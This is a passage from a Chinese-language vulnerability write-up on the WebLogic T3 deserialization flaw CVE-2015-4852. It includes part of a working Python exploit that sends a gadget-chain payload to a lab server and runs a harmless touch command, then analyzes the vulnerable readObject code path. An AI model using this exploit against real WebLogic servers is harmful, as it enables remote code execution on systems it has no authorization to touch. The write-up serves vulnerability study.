 ```
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('&gt;I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "192.168.1.40"
    port = 7001
    gadget = "Jdk7u21" #CommonsCollections1 Jdk7u21
    command = "touch /tmp/CVE-2015-4852"

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

执行完成后，查看docker容器里面的文件。

```
docker exec  weblogic1036jdk7u21 ls tmp/
```

[![](https://p3.ssl.qhimg.com/t01ab266d58e6b6ab87.png)](https://p3.ssl.qhimg.com/t01ab266d58e6b6ab87.png)

执行成功。

在执行exp的时候，如果开启debug去查看其实不难发现，发送t3的报文头信息以后会在返回包里面回显weblogic的版本号。

[![](https://p4.ssl.qhimg.com/t017b58d234a6fdbe67.png)](https://p4.ssl.qhimg.com/t017b58d234a6fdbe67.png)

可以看到，后面通过正则提取了返回包的数据，拿到该版本号信息。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

T3协议接收过来的数据会在`weblogic.rjvm.InboundMsgAbbrev#readObject`这里进行反序列化操作。

来直接定位到该位置，可以看到断点的位置，里面调用了`InboundMsgAbbrev.ServerChannelInputStream#readObject`方法，查看一下

[![](https://p0.ssl.qhimg.com/t01e5698e3a16870dd8.png)](https://p0.ssl.qhimg.com/t01e5698e3a16870dd8.png)

这里调用创建一个内部类，并且调用`readObject`方法，还需要查看一下 `ServerChannelInputStream`实现。

[![](https://p5.ssl.qhimg.com/t013cb1a08ae5f8b1a2.png)](https://p5.ssl.qhimg.com/t013cb1a08ae5f8b1a2.png)

[![](https://p5.ssl.qhimg.com/t0170f477261dd270ed.png)](https://p5.ssl.qhimg.com/t0170f477261dd270ed.png)

在这里其实就可以看到`ServerChannelInputStream`是一个内部类，该类继承`ObjectInputStream`类，而在这里对`resolveClass`进行了重写。

[![](https://p2.ssl.qhimg.com/t01fdd4e0846e220198.png)](https://p2.ssl.qhimg.com/t01fdd4e0846e220198.png)
